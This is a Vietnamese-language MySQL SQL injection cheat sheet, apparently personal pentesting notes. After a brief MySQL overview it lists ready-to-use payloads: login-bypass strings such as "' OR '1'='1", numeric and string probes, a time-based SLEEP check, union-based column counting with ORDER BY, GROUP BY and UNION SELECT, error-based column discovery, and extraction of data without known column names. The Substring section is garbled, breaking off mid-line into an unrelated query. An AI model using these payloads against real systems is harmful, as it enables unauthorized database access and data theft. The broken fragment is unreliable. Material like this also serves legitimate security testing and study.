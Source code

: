 # Tổng quan

- MySQL là một phần mềm mã nguồn mở, chạy trên nhiều nền tảng
- MySQL có thể kết hợp với mọi ngôn ngữ lập trình khác, thông thường là PHP
- MySQL không cho phép hủy query giữa chừng
- Sử dụng Enterprise Manager của Oracle

# MYSQL Testing 

**1.Login**

Query like `SELECT * FROM Users WHERE username = 'Kanye West' AND password = 'Taylor Swift'`

```sql
SELECT * FROM Users WHERE username = '' OR '1' = '1' AND password = '';
SELECT * FROM Users WHERE username = '' OR 1 -- AND password = '';
SELECT * FROM Users WHERE username = "" OR "" = "" AND password = "";
SELECT * FROM Users WHERE username = '' = '' AND password = '';
SELECT * FROM Users WHERE username LIKE '' AND password LIKE '';
SELECT * FROM Users WHERE username = 0-- AND password = '';
```

**2. Numeric**

Query like `SELECT * FROM Table WHERE id = Justin`

```sql
SELECT * FROM Table WHERE id = 123 AND 1;
SELECT * FROM Table WHERE id = 123 AND 0;
SELECT * FROM Table WHERE id = 123 AND true;
SELECT * FROM Table WHERE id = 123 AND false;
SELECT * FROM Table WHERE id = 123 AND (1-false);
SELECT * FROM Table WHERE id = 123 AND (1-true);
```

**3. Strings**

Query like `SELECT * FROM Table WHERE id = 'Kim';`

```sql
SELECT * FROM Table WHERE id = ''';
SELECT * FROM Table WHERE id = '';
SELECT * FROM Table WHERE id = '"';
SELECT * FROM Table WHERE id = '""'; -- "" trả về chuỗi rỗng

# String concatenation

```sql
CONCAT('foo','bar')
```

# Substring

```sql
SUBSTRING('foobar', dụ
SELECT IF(
    (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema = 'tên_cơ_sở_dữ_liệu' AND table_name = 'tên_bảng') > 0,
    SLEEP(10), --  10 giây nếu bảng tồn tại
    'a' -- Nếu không, trả về 'a'
) AS result;
```

# MYSQL Union Based 

**Dò số cột**

- Sử dụng `order by` hoặc `group by`

```sql
1' ORDER BY 1--+	#True
1' ORDER BY 2--+	#True
1' ORDER BY 3--+	#True
1' ORDER BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```

hoặc

```sql
1' GROUP BY 1--+	#True
1' GROUP BY 2--+	#True
1' GROUP BY 3--+	#True
1' GROUP BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```

- Sử dụng `UNION SELECT`

```sql
1' UNION SELECT @--+        #The used SELECT statements have a different number of columns
1' UNION SELECT @,@--+      #The used SELECT statements have a different number of columns
1' UNION SELECT @,@,@--+    #No error means query uses 3 column
                            #-1' UNION SELECT 1,2,3--+	True
```

- Sử dụng `SELECT * FROM SOME_EXISTING_TABLE` ( phần này hoạt động nếu tính năng hiển thị lỗi được bật )

```sql
1' AND (SELECT * FROM Users) = 1--+ 	#Operand should contain 3 column(s)
                                        # This error means query uses 3 column
                                        #-1' UNION SELECT 1,2,3--+	True
```

- Trích xuất dữ liệu mà không cần biết tên cột

```
select `4` from (select 1,2,3,4,5,6 union select * from users)dbname;
-- dbname ở đây chỉ là đặt tên cho kết quả truy 
```
